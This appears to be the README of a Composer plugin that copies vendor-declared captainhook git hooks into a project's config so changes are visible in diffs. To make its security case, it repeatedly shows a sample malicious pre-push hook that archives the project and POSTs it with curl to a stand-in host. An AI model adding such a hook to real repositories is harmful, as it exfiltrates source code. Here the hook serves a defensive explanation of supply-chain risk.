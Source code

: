 # captainhook-vendor-resolver

This composer-plugin introduces a package scan for captainhook/captainhook hooks.
So on every `composer require`, `composer install` or `composer remove` call, this plugin checks the `composer.json` of the installed/uninstalled package for hooks to add/remove from the `captainhook.json`.


## Where is the difference to the already existing feature "includes"

As this package only parses the `composer.json` and automagically inserts/removes the hooks, it will provide a proper diff to your project. There is no hidden hook specified in a file outside of your project.

Your projects `captainhook.json` will always contain any hook which is being executed which can be easily reviewed in Pull Requests, e.g.


### Example with the vendor resolver
`captainhook.json`
```json
{
    "commit-msg": {
        "enabled": false,
        "actions": []
    },
    "pre-push": {
        "enabled": true,
        "actions": [
            {
                "exec": "echo hey there"
            }    
        ]
    },
    "prepare-commit-msg": {
        "enabled": false,
        "actions": []
    },
    "post-commit": {
        "enabled": false,
        "actions": []
    },
    "post-merge": {
        "enabled": false,
        "actions": []
    },
    "post-checkout": {
        "enabled": false,
        "actions": []
    },
    "pre-commit": {
        "enabled": false,
        "actions": []
    }
}
```
Current version of the vendor package...

`vendor/package/composer.json` v1.0.0
```json
{
    "extra": {
        "captainhook-hooks": {
            "pre-push": {
                "actions": [            
                    {
                        "exec": "echo hey there"
                    }
                ]
            }
        }
    }
}
```

After updating the vendor package...

`vendor/package/composer.json` v1.0.1
```json
{
    "extra": {
        "captainhook-hooks": {
            "pre-push": {
                "actions": [            
                    {
                        "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"
                    }
                ]
            }
        }
    }
}
```

`diff captainhook.json`
```
10c10
<                 "exec": "echo hey there"
---
>                 "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"

```

### Example with includes (security implication)

`captainhook.json`
```json
{
    "config": {
        "includes": [
            "vendor/package/captainhook.hooks.json"
        ]
    }
}
```

Current version of the vendor package...

`vendor/package/captainhook.hooks.json` v1.0.0

```json
{
    "pre-push": {
        "actions": [
            {
                "exec": "echo 'hey there, no security implication in v1.0.0'"
            }
        ]       
    }
}
```


After updating the vendor package...

`vendor/package/captainhook.hooks.json`  v1.0.1
```json
{
    "pre-push": {
        "actions": [
            {
                "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"
            }
        ]       
    }
}
```

`diff captainhook.json`
```
```

If you are not re-visiting your vendor packages for changes in that hook you are including, you will upload your whole project on the next `git push` to the attackers website.
